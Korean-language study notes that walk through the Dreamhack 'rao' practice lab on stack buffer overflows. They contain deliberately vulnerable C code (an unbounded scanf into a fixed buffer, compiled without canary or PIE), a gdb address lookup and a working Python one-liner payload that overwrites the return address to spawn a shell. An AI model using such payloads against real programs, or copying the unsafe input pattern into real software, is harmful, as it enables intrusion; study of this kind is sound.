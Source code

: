 #RAO #엔디언 

### 1. 파일 정보

file ./rao                   
./rao: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=298450dfb7a0f975e175c8e70d1fff1fc1f5b116, not stripped

checksec --file=./rao                   
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols  FORTIFY  Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   68 Symbols  No    0               1               ./rao

### 2. C 소스파일 분석
``` c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

/*
int setvbuf(FILE *stream, char *buf, int mode, size_t size);

표준 입출력 스트림의 버퍼링 방식을 설정합니다.
mode에는 다음 세 가지 값이 올 수 있습니다:
_IONBF (0): 버퍼링 없음 (No buffering)
_IOLBF (1): 줄 단위 버퍼링 (Line buffering)
_IOFBF (2): 전체 버퍼링 (Full buffering)

buf = 0 (사용자 정의 버퍼 없음)
mode = 2 (_IOFBF, 전체 버퍼링)
size = 0 (버퍼 크기를 0으로 설정)
버퍼 모드는 _IOFBF인데, 버퍼 크기가 0이므로 실질적으로는 버퍼링이 꺼진 것과 비슷한 효과를 냅니다.
→ 결과적으로 stdin, stdout이 실시간 입출력처럼 동작합니다.

입력/출력을 빠르게 처리하고, 버퍼링에 의한 지연이나 예측 불가능한 동작을 막기 위해
특히 stdout은 기본적으로 line-buffered이기 때문에, 프롬프트(printf("Input: "))가 출력되지 않는 문제가 생기기도 해요
그래서 버퍼링을 꺼줘야 GDB나 pwntools 같은 도구에서 정확하게 상호작용할 수 있습니다
*/
void init() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}

/*
execve() 함수는 리눅스 시스템 콜 중 하나로, 현재 실행중인 프로세스를 새로운 프로그램으로 완전히 대체하는 역할을 함. 
int execve(const char *pathname, char *const argv[], char *const envp[]);
pathname : 실행할 프로그램의 경로
argv : 프로그램에 전달할 인자 목록(argv[0]은 관례적으로 프로그램 이름)
envp : 환경변수 배열 (NULL이면 기본 환경 없음)

/bin/sh 셀을 실행하고, 인자도 /bin/sh 하나만 준다.
환경변수는 NULL 이므로 빈 환경으로 실행된다. 
*/
void get_shell() {
    char *cmd = "/bin/sh";
    char *args[] = {cmd, NULL};

    execve(cmd, args, NULL);
}

int main() {
    char buf[0x28];

    init();

    printf("Input: ");
    scanf("%s", buf);

    return 0;
}
```

### 3. 익스플로잇 설계

세크먼트 폴트 : 프로그램 실행이 잘못된 주소에 접근할 때 발생하는 에러 메시지

스택프레인 구조 보기
![](https://dreamhack-lecture.s3.amazonaws.com/media/1bb5b0f9b7ad1a97758589ad0121fd410551a03f561fba9c340608c5dbe58fd3.png)

### 4. get_shell()의 주소 확인
```
$ gdb rao -q
pwndbg> print get_shell
$1 = {<text variable, no debug info>} 0x4006aa <get_shell>
pwndbg> quit
```

### 5. 페이로드 구성

익스플로잇에 사용할 페이로드(payload)를 구성해야 한다.
시스템 해킹에서 페이로드는 공격을 위해 프로그램에 전달하는 데이터를 의미함.
![](https://dreamhack-lecture.s3.amazonaws.com/media/d5ed47df7d9c2b0e2cb6786e1023a57d433d578d2c89fb4a02e09bcbd99933b4.png)![](https://dreamhack-lecture.s3.amazonaws.com/media/8459f1aa6a669031717cc91ae7cd98380e0c8ab495aecc19d03b8f7cacfde814.png)

### 6. 엔디언 적용

구성한 페이로드는 적절한 엔디언(Endian)을 적용해서 프로그램에 전달해야 함.
엔디언은 메모리에서 데이터가 정렬되는 방식으로 주로 리틀 엔디언(Little Endian)과 빅 엔디언(Big Endian)이 사용됨
리틀 엔디언에서는 데이터의 Most Significant Byte(MSB: 가장 왼쪽의 바이트)가 가장 높은 주소에 저장되고, 빅 엔디언에서는 데이터의 MSB가 가장 낮은 주소에 저장된다.

예를 들어, 0x12345678 은 
![](https://dreamhack-lecture.s3.amazonaws.com/media/a2090442e76494b8e884510f28855215668142f9662e6bcfa2858e3bf502f76a.png)
과 같이 저장된다.

### 7. 엔디언 테스트
``` c
// Name: endian.c
// Compile: gcc -o endian endian.c

#include <stdio.h>
int main() {
  unsigned long long n = 0x4006aa;

  printf("Low <-----------------------> High\n");

  for (int i = 0; i < 8; i++) printf("0x%hhx ", *((unsigned char*)(&n) + i));

  return 0;
}
```

``` c
$ ./endian
Low <-----------------------> High
0xaa 0x6 0x40 0x0 0x0 0x0 0x0 0x0
```

### 8. 익스플로잇
```
$ (python -c "import sys;sys.stdout.buffer.write(b'A'*0x30 + b'B'*0x8 + b'\xaa\x06\x40\x00\x00\x00\x00\x00')";cat)| ./rao
$ id
id
uid=1000(rao) gid=1000(rao) groups=1000(rao)
```

1.( ... ; ... )
   - 괄호 안의 명령어들을 서브셸에서 순차적으로 실행하고,
   - 그 출력 결과를 하나로 합침
   - 즉, python ... -> 그 다음 cat 순으로 실행한 뒤 결과를 파이프로 ./rao 에 전달함
2.python -c " ... "
- -c 옵션은 파이썬 코드를 문자렬로 직접 실행한다는 뜻.
- b'A'*0x30 -> 문자 A(0x41)를 0x30(=48)번 출력
- b'B'*0x8 -> 문자 B(0x42)를 8번 출력
- b'\xaa\x06\x40\x00\x00\x00\x00\x00' -> 64비트 리틀엔디언 주소값을 출력
3.cat
- python이 출력한 페이로드 뒤에 추가 입력을 대기시켜주기 위해 붙임
- cat만 있으면, 사용자가 키보드에서 계속 입력할 수 있고 그 입력도 ./rao 로 넘어감
- 즉, 프로그램이 추가 입력을 요구해도 죽지 않고 계속 테스트 가능
4.| ./rao
- 앞에서 만든 출력(페이로드 + cat입력)을 ./rao 라는 실행 파일의 표준 입력(stdin)으로 전달.


